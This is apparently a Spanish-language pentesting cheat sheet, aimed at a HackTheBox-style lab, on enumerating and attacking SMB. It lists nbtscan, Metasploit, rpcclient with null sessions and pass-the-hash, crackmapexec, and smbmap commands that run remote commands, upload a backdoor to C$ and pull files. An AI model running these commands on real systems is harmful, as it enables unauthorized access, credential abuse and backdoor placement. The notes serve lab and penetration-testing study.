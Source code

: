 Escanear una red en busca de hosts

```bash
nbtscan -r <IP>/24
```

Para poder usar algun exploit para smb, necesitamos conocer la versión. Podemos hacerlo con el modúlo de metasploit:

```bash
MSF _auxiliary/scanner/smb/smb_version

Buscar exploit:

msf> search type:exploit platform:windows target:2008 smb
searchsploit microsoft smb
```

Obtener información del entorno SMB

```bash
#Connect to the rpc
rpcclient -U "" -N <IP> #No creds
rpcclient //machine.htb -U domain.local/USERNAME%754d87d42adabcca32bdb34a876cbffb  --pw-nt-hash
rpcclient -U "username%passwd" <IP> #With creds
```

Listar recursos, usuarios, grupos,etc

```bash
# SMBClinet (no muestra permisos sobre los recuros)

smbclient -L <IP>smb -N 

- N: null session

# Crackmapexec (listamos recrusos sin disponer de credenciales)

crackmapexec smb <IP> -u '' -p '' --shares  # Null user

crackmapexec smb <IP> --users [-u <username> -p <password>]
crackmapexec smb <IP> --groups [-u <username> -p <password>]
crackmapexec smb <IP> --groups --loggedon-users [-u <username> -p <password>]

crackmapexec smb <IP> -u 'username' -p 'password' --shares #Guest user
crackmapexec smb <IP> -u 'username' -H '<HASH>' --shares #Guest user

# SMBMap

smbmap -u guest -p "" -d . -H <TARGET_IP>
smbmap -u <USER> -p '<PW>' -d . -H <TARGET_IP>
smbmap -u <USER> -p '<PW>' -H <TARGET_IP> -x 'ipconfig' ## Run a command
smbmap -u <USER> -p '<PW>' -H <TARGET_IP> -L ## List all drives
smbmap -u <USER> -p '<PW>' -H <TARGET_IP> -r 'C$' ## List dir content
smbmap -u <USER> -p '<PW>' -H <TARGET_IP> --upload '/root/sample_backdoor' 'C$\\sample_backdoor' ## Upload a file
smbmap -u <USER> -p '<PW>' -H <TARGET_IP> --download 'C$\\flag.txt' ## Download a file

# Metasploit

use auxiliary/scanner/smb/smb_lookupsid
set rhosts hostname.local
run
```
